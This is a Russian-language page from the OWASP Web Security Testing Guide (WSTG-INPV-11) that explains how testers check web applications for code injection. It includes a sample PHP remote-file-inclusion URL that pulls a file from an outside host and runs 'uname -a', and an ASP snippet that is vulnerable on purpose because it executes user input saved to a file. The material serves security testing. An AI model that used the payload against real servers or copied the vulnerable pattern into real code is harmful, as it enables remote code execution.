 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование инъекции кода

|ID          |
|------------|
|WSTG-INPV-11|

## Обзор

В этом разделе описывается, как тестировщик может проверить, можно ли ввести код в качестве входных данных на web-странице и выполнить его на web-сервере.

При тестировании [инъекции кода](https://owasp.org/www-community/attacks/Code_Injection) тестировщик отправляет входные данные, которые обрабатываются web-сервером как динамический код или как включенный файл. Эти тесты могут быть нацелены на различные серверные скриптовые фреймворки, например, ASP или PHP. Для защиты от этих атак необходимо использовать надлежащий контроль входных данных и методы безопасной разработки.

## Задачи тестирования

- Найти точки для инъекции, где вы можете вставить код в приложение.
- Оцените воздействие инъекции.

## Как тестировать

### Тестирование методом чёрного ящика

#### Тестирование уязвимостей PHP-инъекций

Используя строку запроса, тестировщик может ввести код (в данном примере вредоносный URL), который будет обработан как часть включенного файла:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> Вредоносный URL принимается в качестве параметра для страницы PHP, которая позже будет использовать это значение во включенном файле.

### Тестирование методом серого ящика

#### Тестирование на наличие уязвимостей для инъекции кода ASP

Проанализируйте код ASP на предмет пользовательского ввода в функциях выполнения. Может ли пользователь вводить команды в поле ввода данных? Здесь код ASP сохранит входные данные в файл, а затем выполнит его:

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### Ссылки

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipedia](https://en.wikipedia.org/wiki/Code_injection)
- [Reviewing Code for OS Injection](https://wiki.owasp.org/index.php/OS_Injection)
